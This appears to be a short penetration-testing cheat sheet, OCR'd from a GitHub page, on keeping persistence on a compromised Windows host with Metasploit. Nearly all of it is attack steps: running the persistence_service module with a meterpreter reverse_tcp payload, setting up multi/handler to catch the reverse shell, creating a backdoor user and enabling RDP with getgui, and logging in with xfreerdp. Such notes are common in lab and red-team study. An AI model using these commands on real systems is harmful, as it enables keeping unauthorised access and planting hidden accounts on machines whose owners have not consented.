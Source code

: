 # Establishing Persistence in Windows
After gaining a foothold, you will need to establish persistence on the target

1. Gain access to meterpreter on host
2. Background session

Module: **exploit/windows/local/persistence_service**  
This will create a persistant service that is paired with meterpreter payload  
- remote_exe_name
- Remote_exe_path
- Service_Name -- most important. May only need this one
- set payload -- can only be windows/meterpreter/reverse_tcp

1. Setup Multi Handler - ```use multi/handler```
2. set Payload -- ```set payload windows/meterpreter/reverse_tcp```
3. set LHOST
4. run
You should immediately receive a meterpreter session

# Windows Persistence
1. Enable RDP using Metasploit module  OR
2. Create user and enable RDP-- ```run getgui -e -u (username) -p (password)```
3. login -- ```xfreerdp /u:username /p:password /v:(target IP)```
